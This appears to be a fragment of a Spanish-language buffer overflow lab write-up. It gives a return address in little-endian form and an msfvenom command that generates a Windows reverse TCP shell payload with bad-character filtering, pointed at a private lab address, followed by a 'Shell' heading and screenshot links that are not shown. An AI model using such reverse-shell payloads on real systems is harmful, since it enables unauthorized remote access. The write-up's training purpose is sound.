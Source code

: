 ```php
0x625011AF
```

```php
\xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\xa9\xcd\xd4" -f c
```

![20240228170111.png](20240228170111.png)

## Shell

![20240228170304.png](20240228170304.png)
